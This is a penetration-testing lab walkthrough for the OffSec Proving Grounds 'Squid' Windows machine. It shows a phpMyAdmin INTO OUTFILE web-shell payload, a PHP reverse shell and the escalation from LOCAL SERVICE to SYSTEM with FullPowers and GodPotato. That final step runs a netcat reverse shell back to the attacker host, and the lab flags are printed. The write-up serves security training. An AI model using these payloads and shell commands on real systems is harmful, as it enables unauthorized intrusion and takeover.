

# Squid — OffSec (Windows · Hard)

> **Platform:** Offensive Security Proving Grounds  
> **OS:** Windows Server 2019 (10.0.17763)  
> **Difficulty:** Hard  
> **Target IP:** `192.168.208.189`  
> **Attacker IP:** `192.168.45.206`

---

## Overview

In this lab we enumerate ports hidden behind a **Squid HTTP proxy** to discover a phpMyAdmin instance, upload a web shell through SQL injection, and escalate from `LOCAL SERVICE` to `SYSTEM` via privilege recovery and impersonation abuse.

### Learning Objectives

- Enumerate open ports behind the Squid proxy to identify accessible services.
- Exploit phpMyAdmin to upload a web shell and establish a reverse shell as `LOCAL SERVICE`.
- Recover default `LOCAL SERVICE` privileges using **FullPowers**.
- Abuse `SeImpersonatePrivilege` with **GodPotato** to achieve `SYSTEM`-level access.

---

## 1 · Reconnaissance

### 1.1 — Full Port Scan

```bash
sudo nmap --min-rate 10000 -sCV -p- -Pn 192.168.208.189
```

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-12 09:15 -0400
Nmap scan report for 192.168.208.189
Host is up (0.25s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
49666/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-09-12T13:16:22
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 128.08 seconds
```

**Key finding — Squid HTTP Proxy on port 3128:**

```
3128/tcp  open  http-proxy    Squid http proxy 4.14
```

Squid Cache ([squid-cache.org](https://www.squid-cache.org/)) is a caching and forwarding HTTP proxy. Its presence means the target may be relaying requests to internal services that are **not directly reachable** from our Kali machine.


---

## 2 · Understanding the Squid Proxy

### Why Squid Matters

Normally our Kali box connects directly to the target's ports. If a firewall blocks those ports, we cannot reach them:

```
Kali ───────X───────> Target:8080
```

But **Squid is running on the target itself**. We can ask Squid to make HTTP requests to `localhost` ports on our behalf:

```
Kali
  │
  │ HTTP request
  ▼
Target:3128
  │
  │ Squid makes the request
  ▼
Target:8080
```

In effect we tell Squid: *"Please fetch `http://192.168.208.189:8080` for me."*

```
             TARGET
       ┌─────────────────┐
       │                 │
Kali ──┤ Squid :3128     │
       │       │         │
       │       ├──> :8080│
       │       ├──> :8081│
       │       └──> :9000│
       │                 │
       └─────────────────┘
```

### Enumerating Ports Through the Proxy

Port 8080 was **not** in our Nmap output — it is only reachable via Squid. We can automate discovery of common web ports:

```bash
for port in 80 81 443 8000 8008 8080 8081 8888 8443; do
    echo "===== $port ====="
    curl -x http://192.168.208.189:3128 \
         --connect-timeout 2 \
         -s -o /dev/null \
         -w "%{http_code}\n" \
         http://192.168.208.189:$port/
done
```

Port **8080** returned a live response:

```bash
curl -x http://192.168.208.189:3128 http://192.168.208.189:8080/
```


A website loads — confirming a hidden web server behind the Squid proxy.

---

## 3 · Accessing the Web Application via Proxy

### 3.1 — Configuring FoxyProxy

Browsing `http://192.168.208.189:8080` directly does not work; all traffic must flow through the Squid proxy. We configure the **FoxyProxy** browser extension to route traffic through `192.168.208.189:3128`.

Install FoxyProxy Standard:

```
https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/
```


After configuration, select the proxy in the FoxyProxy extension and reload the page.

> [!WARNING]
> While this proxy is active, **other websites will not load**. Disable the proxy before browsing anything else.

### 3.2 — Discovering phpMyAdmin

The WAMP default page loads and reveals a **phpMyAdmin** link:


---

## 4 · Initial Access — phpMyAdmin to Reverse Shell

### 4.1 — Logging In with Default Credentials

Navigate to the phpMyAdmin panel:


phpMyAdmin default credentials:

```
Username: root
Password: (empty)
```

> *Some versions use `password` as the default password.*

Login succeeds — we now have access to the SQL query console.


### 4.2 — Writing a PHP File-Upload Shell via SQL

The SQL tab allows arbitrary query execution on the server. We use `SELECT … INTO OUTFILE` to write a PHP upload form directly to the web root.

Reference: [BababaBlue Gist — PHP Upload Shell](https://gist.github.com/BababaBlue)


```sql
SELECT 
"<?php echo '<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">';echo '<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>'; if( $_POST['_upl'] == \"Upload\" ) { if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Upload Done.<b><br><br>'; }else { echo '<b>Upload Failed.</b><br><br>'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

Execute the query:


### 4.3 — Uploading the Reverse Shell

Browse to the newly created upload page:

```
http://192.168.208.189:8080/uploader.php
```


Note our Kali attacker IP:


Generate a **PHP Ivan Sincek** reverse shell from [revshells.com](https://www.revshells.com/):


Save the payload locally:

```bash
gedit exploit.php
```

Upload the reverse shell via the uploader page:


### 4.4 — Catching the Shell

Start a Netcat listener:

```bash
rlwrap -cAr nc -lvnp 4444
```

Trigger the shell by browsing to:

```
http://192.168.208.189:8080/exploit.php
```

The browser hangs — and we catch a reverse shell:

```
└─# rlwrap -cAr nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.206] from (UNKNOWN) [192.168.208.189] 49964
SOCKET: Shell has connected! PID: 2664
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>
```

### 4.5 — Grabbing `local.txt`

```
C:\wamp\www>where /r C:\ local.txt
C:\local.txt

C:\wamp\www>type C:\local.txt
7d0702889d59d6d34f5a697ffeb8c4f5
```

> 🚩 **local.txt** — `7d0702889d59d6d34f5a697ffeb8c4f5`

---

## 5 · Privilege Escalation

### 5.1 — Situational Awareness

```
C:\wamp\www>whoami
nt authority\local service

C:\wamp\www>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

We are running as `nt authority\local service` with **very limited privileges** — notably missing `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege`, which are the typical tokens needed for potato-style escalation.

### 5.2 — Recovering Privileges with FullPowers

[FullPowers](https://github.com/itm4n/FullPowers) creates a scheduled task that spawns a new process with the **default** token for `LOCAL SERVICE`, restoring stripped privileges.

Download on Kali:


Transfer to the target — start a Python HTTP server on Kali:

```bash
python3 -m http.server 8000
```

Download on the Windows target:

```
curl http://192.168.45.206:8000/FullPowers.exe -o FullPowers.exe
```

```
C:\wamp\www>curl http://192.168.45.206:8000/FullPowers.exe -o FullPowers.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 36864  100 36864    0     0  36864      0  0:00:01 --:--:--  0:00:01  128k
```

Execute FullPowers:

```
C:\wamp\www>.\FullPowers.exe
[+] Started dummy thread with id 1428
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.
```

Verify the recovered privileges:

```
C:\Windows\system32>whoami
nt authority\local service

C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

We now have **7 privileges** including the critical `SeImpersonatePrivilege`.

### 5.3 — SYSTEM Shell via GodPotato

[GodPotato](https://github.com/BeichenDream/GodPotato) abuses `SeImpersonatePrivilege` to execute commands as `SYSTEM`.


Navigate back to the writable directory and transfer the required binaries:

```
C:\Windows\system32>cd C:\wamp\www
```

Transfer GodPotato:

```bash
curl http://192.168.45.206:8000/GodPotato-NET4.exe -o GodPotato-NET4.exe
```

Transfer `nc.exe` — locate it on Kali first:

```bash
find /usr/share -iname "nc.exe" 2>/dev/null
cp /usr/share/windows-resources/binaries/nc.exe .
```

Download on target:

```
curl http://192.168.45.206:8000/nc.exe -o nc.exe
```

Start a new listener on Kali:

```bash
nc -lvnp 4444
```

Execute GodPotato to spawn a SYSTEM reverse shell:

```
C:\wamp\www>.\GodPotato-NET4.exe -cmd "cmd /c nc.exe 192.168.45.206 4444 -e cmd.exe"
[*] CombaseModule: 0x140706518663168
[*] DispatchTable: 0x140706520976576
[*] UseProtseqFunction: 0x140706520353840
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\84279a90-0596-40ba-a3de-25eeb2417f67\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000e002-11b8-ffff-a06b-15414cc3ff9e
[*] DCOM obj OXID: 0x928bbc8a1c8daaa5
[*] DCOM obj OID: 0xd6dde814be2b1cef
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 884 Token:0x796  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3900
```

**SYSTEM shell received:**

```
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.206] from (UNKNOWN) [192.168.208.189] 49748
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>whoami
nt authority\system
```

### 5.4 — Grabbing `proof.txt`

```
C:\wamp\www>where /r C:\ proof.txt
C:\Users\Administrator\Desktop\proof.txt

C:\Users\Administrator\Desktop>type proof.txt
b56baa85f54164ab71723c33aa487e3f
```

> 🚩 **proof.txt** — `b56baa85f54164ab71723c33aa487e3f`

---

## 6 · Attack Chain Summary



| Phase | Tool / Technique | Result |
|---|---|---|
| Recon | `nmap` | Squid proxy on 3128 |
| Enum | `curl -x` through proxy | WAMP + phpMyAdmin on 8080 |
| Initial Access | SQL `INTO OUTFILE` → PHP upload → reverse shell | Shell as `LOCAL SERVICE` |
| Priv Esc — Step 1 | **FullPowers** (scheduled task token recovery) | Gained `SeImpersonatePrivilege` |
| Priv Esc — Step 2 | **GodPotato** (DCOM impersonation) | `NT AUTHORITY\SYSTEM` |

---

## 7 · Lessons Learned

1. **Always enumerate through proxies.** Nmap only shows ports reachable from your network position. A proxy running on the target can relay to internal services invisible to external scans.
2. **Default credentials still work.** phpMyAdmin with `root` / no password gave us full database access and the ability to write files to disk.
3. **`LOCAL SERVICE` ≠ useless.** Even with stripped privileges, `FullPowers` can recover the default token via scheduled task abuse.
4. **`SeImpersonatePrivilege` is game over.** Once recovered, potato-family tools (GodPotato, PrintSpoofer, etc.) trivially escalate to `SYSTEM`.
5. **FoxyProxy configuration.** Remember to disable the proxy when done — it routes *all* browser traffic through the target, breaking normal web access.

---

## Tools Used

| Tool | Purpose |
|---|---|
| [Nmap](https://nmap.org/) | Port scanning & service detection |
| [cURL](https://curl.se/) | Proxy-based port enumeration & file transfers |
| [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) | Browser proxy configuration |
| [revshells.com](https://www.revshells.com/) | Reverse shell payload generation (PHP Ivan Sincek) |
| [FullPowers](https://github.com/itm4n/FullPowers) | LOCAL SERVICE privilege recovery |
| [GodPotato](https://github.com/BeichenDream/GodPotato) | SeImpersonatePrivilege → SYSTEM escalation |
| [Netcat (nc)](https://nmap.org/ncat/) | Reverse shell listener |
